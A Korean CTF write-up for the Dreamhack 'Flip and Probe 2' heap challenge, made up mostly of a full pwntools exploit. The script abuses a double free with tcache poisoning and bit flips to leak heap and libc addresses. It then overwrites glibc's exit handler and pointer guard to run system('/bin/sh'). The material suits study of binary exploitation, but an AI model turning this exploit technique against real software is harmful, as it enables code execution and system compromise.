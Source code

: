 익스 계획 짜기 :
Flip and Probe에서 사용했던 double free 취약점이 그대로 존재한다. 하지만 이제는 gimmeflag 따윈 없기 때문에 다른 방법을 찾아야 한다.
```bash
[*] '/mnt/d/hk/dreamhack/pwn/lv8/Flip and Probe 2/main'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
```
보호기법이 다 걸려있다.

마지막에 exit(0)이 보인다. exit이 있으면 exit handler overwrite가 가능하다. 
1. fs_base+0x30의 위치에 p64(0) 덮기 (덮을 수 없다면 값을 leak해도 됨)
2. initial+0x10에 p64(4), initial+0x18에 호출하고 싶은 함수를 0x11만큼 rol한 값 , initial+0x20에 인자 주소 덮기
3. exit함수 실행
[출처](https://velog.io/@chk_pass/Exit-handler-overwrite)

이러면 libc_base를 따야 한다. 근데 malloc 크기가 0x30으로 고정되어 있어서 unsorted bin으로 libc base를 쉽게 딸 수 없다. 그리고 어떤 청크에서 0x30바이트만큼만 접근할 수 있으므로 다른 청크의 사이즈를 변조하지 못한다. 
double free로 같은 주소를 가지는 인덱스를 많이 생성하고, 비트플립을 통해 heap_base를 알아낸다. 청크 하나를 더 만들고 tcache positioning으로 주소를 조작해 chunk overlapping해서 chunk size를 크게 변경하고 free시켜 unsorted bin에 들어가게 한다. 그럼 libc 관련 주소가 있을텐데 그것도 노가다로 읽어온다. 이렇게 libc_base를 딴다.
그리고 tcache positioning으로 exit handler overwrite해서 쉘을 딴다.

exit handler overwrite를 할 때 주의할 점이 있다. initial에는 0, initial+0x8에는 0이 아닌 값이 들어있어야 한다.
tcache positioning을 할 때 size를 직접 써야 거기서 double free를 유발하고 값을 쓸 수 있다. 따라서 쓰고 싶은 곳 - 0x10에 주소를 할당받고 비트플립 1번으로 0x40 사이즈의 fake chunk를 만들어야 한다.

```python
from pwn import *
from tqdm import *

context.terminal = ['tmux', 'splitw', '-h']

p = remote('host3.dreamhack.games', 13395)
#p = process('./main')
l = ELF('./libc.so.6')

def ma(i1: int):
    p.sendafter(b'> ', b'0')
    p.sendafter(b'> ', str(i1).encode())

def fr(i1: int):
    p.sendafter(b'> ', b'2')
    p.sendafter(b'> ', str(i1).encode())

def fl(i1: int, i2: int):
    p.sendafter(b'> ', b'1')
    p.sendafter(b'> ', str(i1).encode())
    p.sendafter(b'> ', str(i2).encode())
    return p.recvn(1)

def unlink_heap(num: int):
    res = 0
    last = 0
    n = list()
    while num > 0:
        n.append(num & ((1 << 12) - 1))
        num >>= 12

    for i in range(len(n) - 1, -1, -1):
        n[i] ^= last
        res <<= 12
        res += n[i]
        last = n[i]
    
    return res

def double_free(i1: int, i2: int):
    fr(i1)
    fl(i1, 64)
    fr(i1)
    ma(i2)
    ma(i1)

ma(0)
ma(128)
ma(255)
for i in trange(1, 64 + 1):
    ma(i)
for i in trange(1, 64 + 1):
    double_free(0, i)
for i in trange(128 + 1, 128 + 48 * 2 + 1):
    double_free(128, i)
    
heap_base = 0
for i in trange(1, 64 + 1):
    heap_base += int(fl(i, i - 1).decode(), 10) << (i - 1)
heap_base = unlink_heap(heap_base)
print(f"heap_base = {hex(heap_base)}")

for i in trange(1, 64 + 1):
    double_free(0, i)
addr = (heap_base + 0x20) ^ (heap_base >> 12)
cmp = (heap_base + 0x80) ^ (heap_base >> 12)
fr(255)
fr(0)
for i in trange(1, 64 + 1):
    if addr & (1 << (i - 1)) != cmp & (1 << (i - 1)):
        fl(i, i - 1)

ma(0)
ma(254)
fl(254, 8 * 25 + 4)
fr(128)
l.address = 0
for i in trange(128 + 1, 128 + 48 + 1):
    l.address += int(fl(i, i - 128 - 1).decode(), 10) << (i - 128 - 1)
for i in trange(128 + 48 + 1, 128 + 48 * 2 + 1):
    fl(i, i - 128 - 48 - 1)
l.address -= 0x7fb8b12bace0 - 0x7fb8b10a1000
print(f"libc_base = {hex(l.address)}")
fs_base = l.address + (0x7ffff7d90740 - 0x7ffff7d93000)
initial = l.address + (0x7ffff7fadf00 - 0x7ffff7d93000)
system = l.sym['system']
binsh = list(l.search(b'/bin/sh'))[0]

# fs_base + 0x30
for i in trange(1, 128 + 1):
    double_free(0, i)
ma(255)
fr(255)
fr(0)
bit = 0
for i in trange(1, 128 + 1):
    flip_bit = int(fl(i, bit).decode(), 10)
    if (flip_bit << bit) != (((fs_base + 0x20) ^ (heap_base >> 12)) & (1 << bit)):
        bit += 1
    if bit == 64:
        break
ma(0)
ma(130)
fl(130, 70)

for i in trange(1, 128 + 1):
    double_free(0, i)
ma(255)
fr(255)
fr(0)
bit = 0
for i in trange(1, 128 + 1):
    flip_bit = int(fl(i, bit).decode(), 10)
    if (flip_bit << bit) != (((fs_base + 0x30) ^ (heap_base >> 12)) & (1 << bit)):
        bit += 1
    if bit == 64:
        break
ma(0)
ma(130)
for i in trange(1, 128 + 1):
    double_free(130, i)
bit = 0
for i in trange(1, 128 + 1):
    flip_bit = int(fl(i, bit).decode(), 10)
    if flip_bit != 0:
        bit += 1
    if bit == 64:
        break

# initial
for i in trange(1, 128 + 1):
    double_free(0, i)
ma(255)
fr(255)
fr(0)
bit = 0
for i in trange(1, 128 + 1):
    flip_bit = int(fl(i, bit).decode(), 10)
    if (flip_bit << bit) != (((initial - 0x10) ^ (heap_base >> 12)) & (1 << bit)):
        bit += 1
    if bit == 64:
        break
ma(0)
ma(130)
fl(130, 70)

for i in trange(1, 128 + 1):
    double_free(0, i)
ma(255)
fr(255)
fr(0)
bit = 0
for i in trange(1, 128 + 1):
    flip_bit = int(fl(i, bit).decode(), 10)
    if (flip_bit << bit) != ((initial ^ (heap_base >> 12)) & (1 << bit)):
        bit += 1
    if bit == 64:
        break
ma(0)
ma(130)
for i in trange(1, 128 + 1):
    double_free(130, i)
bit = 0
for i in trange(1, 128 + 1):
    flip_bit = int(fl(i, bit + 128).decode(), 10)
    if (flip_bit << bit) != (4 & (1 << bit)):
        bit += 1
    if bit == 64:
        break

for i in trange(1, 128 + 1):
    double_free(130, i)
bit = 0
for i in trange(1, 128 + 1):
    flip_bit = int(fl(i, bit + 192).decode(), 10)
    if (flip_bit << bit) != (((system << 17) ^ (system >> 47)) & (1 << bit)):
        bit += 1
    if bit == 64:
        break

for i in trange(1, 128 + 1):
    double_free(130, i)
bit = 0
for i in trange(1, 128 + 1):
    flip_bit = int(fl(i, bit + 256).decode(), 10)
    if (flip_bit << bit) != (binsh & (1 << bit)):
        bit += 1
    if bit == 64:
        break

for i in trange(1, 128 + 1):
    double_free(130, i)
bit = 0
for i in trange(1, 128 + 1):
    flip_bit = int(fl(i, bit).decode(), 10)
    if flip_bit != 0:
        bit += 1
    if bit == 64:
        break
fl(128, 64)

p.sendafter(b'> ', b'3')
p.interactive()
```